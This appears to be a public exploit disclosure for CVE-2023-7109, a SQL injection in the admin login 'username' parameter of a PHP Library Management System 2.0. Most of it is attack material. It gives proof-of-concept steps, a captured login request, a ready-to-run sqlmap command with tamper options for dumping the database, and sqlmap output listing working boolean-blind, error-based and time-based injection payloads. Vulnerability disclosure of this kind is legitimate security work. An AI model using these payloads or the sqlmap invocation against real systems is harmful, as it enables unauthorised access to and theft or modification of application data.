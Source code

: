 # CVE-2023-7109_Library-Management-System_SQL_Injection-1
+ **Exploit Title:** CVE-2023-7109_Library-Management-System_SQL_Injection-1
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/library-management-system-in-php-with-source-code-ver-2-0/
+ **Software Link:** https://download-media.code-projects.org/2020/02/LIBRARY_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE_VER.2.0.zip
+ **Version:** 2.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7109

## References: 
+ **CVE-2023-7109:** https://vuldb.com/?id.249004
+ https://www.cve.org/CVERecord?id=CVE-2023-7109

## Description:
Library Management System 2.0 allows SQL Injection via parameter 'username' in "/libsystem/admin/login.php".
Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the admin panel: "http://localhost/libsystem/admin/login.php"
+ Fill the username and password then click 'Sign In' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
POST /libsystem/admin/login.php HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 313
Content-Type: application/x-www-form-urlencoded
Referer: http://localhost/libsystem/admin/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

username=admin&login=&password=Pass
```

+ Use sqlmap to exploit. In sqlmap, use 'username' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p username --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=admin' OR NOT 3872=3872-- DYwR&login=&password=pass

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=admin' AND (SELECT 8182 FROM(SELECT COUNT(*),CONCAT(0x71716b7a71,(SELECT (ELT(8182=8182,1))),0x7178706b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- jrIz&login=&password=pass

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 9071 FROM (SELECT(SLEEP(5)))PbNC)-- yHio&login=&password=pass
---
[12:40:04] [INFO] testing MySQL
[12:40:04] [INFO] confirming MySQL
[12:40:04] [INFO] the back-end DBMS is MySQL
web application technology: PHP, Apache 2.4.53, PHP 8.1.6
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[12:40:04] [INFO] fetching current database
[12:40:04] [INFO] resumed: 'libsystem'
current database: 'libsystem'
```

+ current database: `libsystem`
![1](https://github.com/h4md153v63n/CVEs/assets/5091265/ed5fefd1-2d1a-4b64-b2b7-c9b4f24b468b)
